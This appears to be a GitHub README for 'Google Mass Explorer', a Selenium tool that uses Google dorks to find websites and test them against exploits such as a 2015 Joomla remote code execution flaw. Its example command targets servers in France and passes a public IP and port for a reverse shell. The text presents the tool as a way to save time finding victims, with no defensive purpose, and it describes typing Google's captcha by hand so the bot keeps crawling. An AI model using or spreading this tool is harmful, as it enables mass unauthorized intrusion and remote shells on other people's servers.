 [+] Google Mass Explorer
This is a automated robot for google search engine.

Make a google search, and parse the results for a especific exploit you define.
The options can be listed with --help parameter.

Intro:
This project is a main project that i will keep upgrading when new exploits are published. They idea is use google search engine to find vulnerable targets, for specific exploits. The exploits parsers will be concentrated in google_parsers module. So when you make a search, you can choose explicit in "--exploit parser" argument, a especific exploit to the robot test if is the targets are vulnerable for that or not.
*** Is very important you use the right dork for the specific exploit.

The google parsers module (google_parsers.py) is the file that i will keep upgrading. For this version i'm putting just the joomla cve exploit. I have a wordpress bot too, but the ideia is you make your own parsers =))) If you have difficul to make, just send me the exploit and we make together =))

I make this google explorer because i'm very busy, and take to much time to search for targets in google manually. So I use a automated framework (Selenium) to make a robot to search for targets for me ;)) The problem using other libs and modules, is the captcha from google, and using Selenium, you can type the captcha when it is displayed, and the robots keeps crawling with no problem =)) This was the only way i find out to "bypass" this kind of protection... After it work, i decide to publish to everyone.

Basictly, how the robot works:
1 - Make a google search
2 - Parse the from each page results
3 - Test if each target is vulnerable for a specific exploit.

Requiriments:
-----> !!!!!! PYTHON 3  !!!!!! <------ THIS PROJECT IS ONLY FOR PYTHON 3 !!!!!!! 
The requirements is in requirements.txt file, you should install what is listed on it with: 
$ sudo pip install -R requirements.txt

These are some exemples that you can use, and make your own:

python3 google_explorer.py --dork="site:*.com inurl:index.php?option=" --browser="chrome" --exploit_parser="joomla_15_12_2015_rce" --revshell="MY_PUBLIC_IP" --port=4444 --google_domain="google.com" --location="França" --last_update="no último mês"

On this exemple, im looking for servers in France, vulnerables to joomla RCE, using google.com domain as google search (they are listed in google_doomais.txt file), with last update on last month.

All these options are possible to any language, it will depends only in what google use for syntax for your country..

I have some old videos on my channel on youtube showing how it works, so take a look at the description of the olders projects in github if you need some video exemples ;))


These are the current options for this project:

Usage:

    google_explorer.py --dork=<arg> --browser=<arg> [--exploit_parser=<arg>] [--language=<arg>]
                                                    [--location=<arg>]       [--last_update=<arg>]
                                                    [--revshell=<arg>]       [--port=<arg>]
                                                    [--google_domain=<arg>]

    google_explorer.py --help
    google_explorer.py --version

Options:

    -h --help                                Open help menu
    -v --version                             Show version

Required options:

    --dork='google dork'                     your favorite g00gle dork :)
    --browser='browser'                      chrome
                                             chromium


Optional options:

    --language='page language'               Portuguese
                                             English
                                             Arabic
                                             Romanian
                                             ...
                                             ...
    
    --location='server location'             Brazil
                                             Mauritania
                                             Tunisia
                                             Marroco
                                             Japan
                                             ...
                                             ...
    
    --last_update='page last update'         anytime
                                             past 24 hours
                                             past week
                                             past month
                                             past year

    --exploit_parser='Name or CVE exploit'   joomla_15_12_2015_rce
                                             joomla_aicontactsafe

    --revshell='IP'                          public ip for reverse shell
    --port='PORT'                            port for back connect

    --google_domain='google domain'          google domain to use on search. Ex: google.co.uk







